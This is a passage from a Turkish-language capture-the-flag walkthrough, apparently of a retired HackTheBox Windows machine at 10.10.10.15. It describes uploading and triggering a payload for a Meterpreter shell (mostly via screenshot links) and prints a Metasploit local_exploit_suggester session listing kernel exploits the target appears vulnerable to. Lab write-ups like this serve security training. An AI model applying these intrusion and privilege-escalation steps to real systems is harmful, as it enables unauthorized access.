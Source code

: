 ![Pasted image 20241026010207.png](/img/user/resimler/Pasted%20image%2020241026010207.png)

![Pasted image 20241026010221.png](/img/user/resimler/Pasted%20image%2020241026010221.png)

Son satırları ve diğer kontrol karakterlerini korumak için bu kez --data-binary kullanarak tekrar yükleyeceğim:

![Pasted image 20241026010341.png](/img/user/resimler/Pasted%20image%2020241026010341.png)

met.txt dosyasını yenilediğimde çok daha temiz göründüğünü görüyorum:

Şimdi dosyayı taşıyacağım ve tetikleyeceğim:

![Pasted image 20241026010434.png](/img/user/resimler/Pasted%20image%2020241026010434.png)

tetik
![Pasted image 20241026010516.png](/img/user/resimler/Pasted%20image%2020241026010516.png)

![Pasted image 20241026010523.png](/img/user/resimler/Pasted%20image%2020241026010523.png)


### Privesc to System
Numaralandırma
Bu eski kutularda, lokal exploit'leri kontrol etme olasılığım daha yüksek ve Metasploit'in bunun için güzel bir modülü var, post/multi/recon/local_exploit_suggester:

```shell-session
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search local_exploit

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester  .                normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(multi/handler) > use 0 
msf6 post(multi/recon/local_exploit_suggester) > set session 1 
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 196 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.15 - Valid modules for session 1:
============================
```